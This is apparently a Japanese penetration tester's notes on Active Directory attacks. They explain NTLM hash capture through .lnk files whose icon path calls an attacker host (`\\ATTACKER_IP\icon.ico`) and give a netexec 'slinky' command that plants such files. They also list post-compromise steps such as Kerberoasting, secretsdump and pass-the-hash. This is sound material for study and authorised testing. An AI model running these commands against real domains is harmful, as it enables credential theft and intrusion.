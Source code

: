 4. 管理者が .lnk ファイルを表示 or アクセスした瞬間、NTLMハッシュが送信される
	- 被害者のマシンは `\\ATTACKER_IP\icon.ico` に自動アクセス
	- 攻撃者側（例：Kali Linux）で Responder を起動していれば、
→ SMB認証を試みるNTLMv2ハッシュがキャプチャできる

つまりこういうこと
- ファイルを開かなくても、エクスプローラーで一覧表示しただけでアウト！
- .lnk のアイコンロード時点で SMB通信が発生 → NTLMハッシュが飛ぶ
- それをResponderやInveighでキャプチャして使う

.lnkファイルの自動作成ツール
- 以下のコマンドで、.inkファイルを作成して、公開共有ホストにおいてくれる。攻撃者がやるのはResponderで待機することだけになる
```sh
netexec smb <AD参加ホスト> -d <ドメイン名> -u <ユーザー名> -p <パスワード> -M slinky -M slinky -o NAME=test SERVER=<攻撃者IP>
```

# グループポリシー設定（GPP）によるパスワードの漏洩
[[Pentest_Technique/Active Directory#グループポリシー設定（GPP）によるパスワードの漏洩]]


# Mimikatz

# 侵害後の攻撃戦略

 アカウントを手に入れた、さて次は？

 まずは「Quick Wins」を試せ
 常に同時並行で進めろ
- Kerberoasting
- Secretsdump（資格情報の抽出）
- Pass the hash / Pass the password（パスハッシュ・パスワードの再利用）

NO Quick Wins？なら深掘りだ！
- 列挙（BloodHoundなどを使う）
- そのアカウントはどこにアクセスできる？
- 古い脆弱性はしぶとく残っている

発想を変えて攻めてみろ（Think outside the box）